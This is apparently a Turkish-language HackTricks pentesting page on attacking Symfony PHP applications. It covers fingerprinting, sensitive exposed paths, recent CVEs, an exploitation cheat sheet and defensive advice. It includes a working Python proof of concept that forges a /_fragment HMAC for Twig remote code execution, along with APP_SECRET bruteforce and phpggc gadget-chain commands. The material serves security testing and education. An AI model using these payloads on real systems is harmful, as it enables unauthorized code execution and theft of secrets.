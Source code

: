 # Symfony

{{#include ../../banners/hacktricks-training.md}}

Symfony, en yaygın kullanılan PHP framework'lerinden biridir ve genellikle kurumsal, e-ticaret ve CMS hedeflerinin değerlendirmelerinde (Drupal, Shopware, Ibexa, OroCRM … hepsi Symfony bileşenlerini içerir) yer alır. Bu sayfa, bir Symfony uygulaması keşfettiğinizde kontrol listenizde bulunması gereken saldırgan ipuçlarını, yaygın yanlış yapılandırmaları ve son güvenlik açıklarını toplar.

> Tarihsel not: Ekosistemin büyük bir kısmı hala **5.4 LTS** dalında çalışıyor (EOL **Kasım 2025**). Tam küçük sürümü her zaman doğrulayın çünkü birçok 2023-2025 güvenlik duyurusu yalnızca yamanmış sürümlerde düzeltildi (örneğin, 5.4.46 → 5.4.50).

---

## Recon & Enumeration

### Finger-printing
* HTTP yanıt başlıkları: `X-Powered-By: Symfony`, `X-Debug-Token`, `X-Debug-Token-Link` veya `sf_redirect`, `sf_session`, `MOCKSESSID` ile başlayan çerezler.
* Kaynak kodu sızıntıları (`composer.json`, `composer.lock`, `/vendor/…`) genellikle tam sürümü ortaya çıkarır:
```bash
curl -s https://target/vendor/composer/installed.json | jq '.[] | select(.name|test("symfony/")) | .name,.version'
```
* Sadece Symfony'de bulunan kamuya açık yollar:
* `/_profiler`   (Symfony **Profiler** & hata ayıklama aracı)
* `/_wdt/<token>` (“Web Debug Toolbar”)
* `/_error/{code}.{_format}` (güzel hata sayfaları)
* `/app_dev.php`, `/config.php`, `/config_dev.php` (4.0 öncesi geliştirme ön kontrolörleri)
* Wappalyzer, BuiltWith veya ffuf/feroxbuster kelime listeleri: `symfony.txt` → `/_fragment`, `/_profiler`, `.env`, `.htaccess` arayın.

### İlginç dosyalar & uç noktalar
| Yol | Neden önemli |
|------|----------------|
| `/.env`, `/.env.local`, `/.env.prod` | Sıkça yanlış dağıtım → `APP_SECRET`, DB kimlik bilgileri, SMTP, AWS anahtarları sızar |
| `/.git`, `.svn`, `.hg` | Kaynak ifşası → kimlik bilgileri + iş mantığı |
| `/var/log/*.log`, `/log/dev.log` | Web kök yanlış yapılandırması yığın izlerini açığa çıkarır |
| `/_profiler` | Tam istek geçmişi, yapılandırma, hizmet konteyneri, **APP_SECRET** (≤ 3.4) |
| `/_fragment` | ESI/HInclude tarafından kullanılan giriş noktası. `APP_SECRET` bilindiğinde kötüye kullanım mümkündür |
| `/vendor/phpunit/phpunit/phpunit` | Erişilebilir ise PHPUnit RCE (CVE-2017-9841) |
| `/index.php/_error/{code}` | Finger-print & bazen istisna izlerini sızdırır |

---

## Yüksek Etkili Güvenlik Açıkları (2023-2025)

### 1. APP_SECRET ifşası ➜ RCE via `/_fragment` (aka “secret-fragment”)
* **CVE-2019-18889** başlangıçta, ancak *hala* hata ayıklama etkin bırakıldığında veya `.env` açığa çıktığında modern hedeflerde görünmektedir.
* 32 karakterlik `APP_SECRET`'i bildiğinizde, bir HMAC token oluşturun ve rastgele Twig çalıştırmak için dahili `render()` kontrolörünü kötüye kullanın:
```python
# PoC – gizli anahtar gerektirir
import hmac, hashlib, requests, urllib.parse as u
secret = bytes.fromhex('deadbeef…')
payload = "{{['id']|filter('system')}}"   # Twig'de RCE
query = {
'template': '@app/404.html.twig',
'filter': 'raw',
'_format': 'html',
'_locale': 'en',
'globals[cmd]': 'id'
}
qs = u.urlencode(query, doseq=True)
token = hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest()
r = requests.get(f"https://target/_fragment?{qs}&_token={token}")
print(r.text)
```
* Harika bir yazım ve istismar scripti: Ambionics blogu (Kaynaklar'da bağlantılı).

### 2. Windows Process Hijack – CVE-2024-51736
* `Process` bileşeni, Windows'ta `PATH`'ten **önce** geçerli çalışma dizinini aradı. Yazılabilir bir web köküne `tar.exe`, `cmd.exe` vb. yükleyebilen bir saldırgan, `Process`'i tetikleyerek (örneğin, dosya çıkarma, PDF oluşturma) komut yürütme elde eder.
* 5.4.50, 6.4.14, 7.1.7'de yamanmıştır.

### 3. Session-Fixation – CVE-2023-46733
* Kimlik doğrulama koruyucusu, giriş yaptıktan sonra mevcut bir oturum kimliğini yeniden kullandı. Bir saldırgan, kurban kimlik doğrulama yapmadan **önce** çerezi ayarlarsa, giriş sonrası hesabı ele geçirir.

### 4. Twig sandbox XSS – CVE-2023-46734
* Kullanıcı kontrolündeki şablonları (admin CMS, e-posta oluşturucu) açığa çıkaran uygulamalarda `nl2br` filtresi, sandbox'ı atlatmak ve JS enjekte etmek için kötüye kullanılabilir.

### 5. Symfony 1 gadget zincirleri (hala eski uygulamalarda bulunuyor)
* `phpggc symfony/1 system id` komutu, `sfNamespacedParameterHolder` gibi sınıflarda unserialize() gerçekleştiğinde RCE'yi tetikleyen bir Phar yükü üretir. Dosya yükleme uç noktalarını ve `phar://` sarmalayıcılarını kontrol edin.

{{#ref}}
../../pentesting-web/deserialization/php-deserialization-+-autoload-classes.md
{{#endref}}

---

## Exploitation Cheat-Sheet

### Calculate HMAC token for `/_fragment`
```bash
python - <<'PY'
import sys, hmac, hashlib, urllib.parse as u
secret = bytes.fromhex(sys.argv[1])
qs     = u.quote_plus(sys.argv[2], safe='=&')
print(hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest())
PY deadbeef… "template=@App/evil&filter=raw&_format=html"
```
### Zayıf `APP_SECRET` için Bruteforce
```bash
cewl -d3 https://target -w words.txt
symfony-secret-bruteforce.py -w words.txt -c abcdef1234567890 https://target
```
### RCE via exposed Symfony Console
Eğer `bin/console` `php-fpm` veya doğrudan CLI yüklemesi aracılığıyla erişilebilir ise:
```bash
php bin/console about        # confirm it works
php bin/console cache:clear --no-warmup
```
Kötü niyetli Twig şablonunu bir sonraki istekte çalıştırmak için önbellek dizininde serileştirme aletleri kullanın veya yazın.

---

## Savunma notları
1. **Asla hata ayıklama dağıtmayın** (`APP_ENV=dev`, `APP_DEBUG=1`) üretime; web sunucusu yapılandırmasında `/app_dev.php`, `/_profiler`, `/_wdt`'yi engelleyin.
2. Gizli anahtarları env değişkenlerinde veya `vault/secrets.local.php`'da saklayın, *asla* belge köküne erişilebilen dosyalarda saklamayın.
3. Yaman yönetimini zorunlu kılın – Symfony güvenlik duyurularına abone olun ve en az LTS yaman seviyesini koruyun.
4. Windows'ta çalışıyorsanız, CVE-2024-51736'yı hafifletmek için hemen güncelleyin veya `open_basedir`/`disable_functions` derinlik savunması ekleyin.

---

### Kullanışlı saldırgan araçlar
* **ambionics/symfony-exploits** – gizli parça RCE, hata ayıklayıcı yollar keşfi.
* **phpggc** – Symfony 1 & 2 için hazır gadget zincirleri.
* **sf-encoder** – `_fragment` HMAC'ını hesaplamak için küçük bir yardımcı (Go uygulaması).

## Referanslar
* [Ambionics – Symfony “secret-fragment” Uzak Kod Yürütme](https://www.ambionics.io/blog/symfony-secret-fragment)
* [Symfony Güvenlik Duyurusu – CVE-2024-51736: Windows İşlem Bileşeninde Komut Yürütme Ele Geçirme](https://symfony.com/blog/cve-2024-51736-command-execution-hijack-on-windows-with-process-class)
{{#include ../../banners/hacktricks-training.md}}
